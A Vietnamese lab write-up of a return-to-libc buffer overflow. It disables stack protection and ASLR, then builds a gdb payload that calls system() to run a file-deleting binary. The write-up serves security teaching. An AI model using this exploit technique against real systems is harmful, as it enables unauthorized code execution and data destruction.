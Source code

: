 # LAB 3
## Khai thác lỗ hổng return-to-lib-c, xóa file "dummy" trong thư mục sử dụng biến môi trường.

Ở lab 3 này, ta sẽ dùng code của `vuln.c` để thực hiện tấn công.

Dưới đây là code của `vuln.c`

![alt text](image1.png)

Theo yêu cầu của lab là sẽ yêu cầu ta xóa file `dummyfile`, nhưng ban đầu ta chưa có file `dummyfile` nào cả nên chúng ta sẽ đi tạo 1 file có tên là `dummyfile`. Và sau khi tạo, ta kiểm tra thử xem `dummyfile` đã tồn tại chưa bằng lệnh `ls`:

![alt text](image2.png)

Ta sử dụng lệnh này để biên dịch chương trình vuln.c: `gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

Với `-z execstack`: cho phép thực thi code trên stack

![alt text](image3.png)

Tiếp theo đó ta cần phải tắt randomize trên stack: `sudo sysctl -w kernel.randomize_va_space=0`

![alt text](image4.png)

Và để xóa `dummyfile` này theo kiểu tấn công return-to-lib-c thì ta sẽ sử dụng `file_del` được biên dịch và liên kết từ `file_del.asm`. Và `file_del` sẽ làm đối số của hàm `system()` được lấy từ thư viện `libc`.

Ta sẽ đi biên dịch và liên kết `file_del.asm` bằng cách sử dụng 2 câu lệnh: `nasm -g -f elf file_del.asm` và `ld -m elf_i386 -o file_del file_del.o`.

Sau đó ta tạo biến toàn cục: `export dummy_delete="/home/seed/seclabs/security-labs/software/buffer-overflow/file_del"`

Với `/home/seed/seclabs/security-labs/software/buffer-overflow/file_del` ta có thể sử dụng `pwd` để tìm.

Dựa vào code, ta cũng có được stackframe của `vuln.c`:
|Stackframe|
|----------|
|buf (64 bytes)|
|EBP (4 bytes)|
|Return Address (4 bytes)|
|Argc (4 bytes)|
|Argv (4 bytes)|

Và từ những điều trên, để có thể thực hiện `return-to-libc` thì ta cần làm cho `buf` bị overflow theo các địa chỉ như sau: 

* Địa chỉ `system` sẽ đè lên `return address` để thực hiện hàm `system`
* Địa chỉ `exit` sẽ đè lên `argc` để return về chương trình chính( tránh lỗi segmentation fault)
* Địa chỉ đối số `/home/seed/seclabs/security-labs/software/buffer-overflow/file_del` sẽ đè lên `argv` (đối số của hàm system)
 
 Ta chạy `gdb` để tìm các địa chỉ trên:

![alt text](image.png)
![alt text](image-1.png)

* Địa chỉ của hàm `system`:`0xf7e50db0` sẽ là `\xb0\x0d\xe5\xf7`
* Địa chỉ của hàm `exit`: `0xf7e449e0` sẽ là `\xe0\x49\xe4\xf7`
* Địa chỉ đối số `/home/seed/seclabs/security-labs/software/buffer-overflow/file_del`: `0xffffdf19` sẽ là `\x19\xdf\xff\xff`

Từ đó ta có câu lệnh để hoàn thành tấn công: `r $(python -c "print('a'*68 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x19\xdf\xff\xff')")`.

![alt text](image-2.png)

Sau đó kiểm tra lại bằng lệnh `ls` thì ta đã không còn thấy `dummyfile` mà ban đầu ta đã tạo nữa.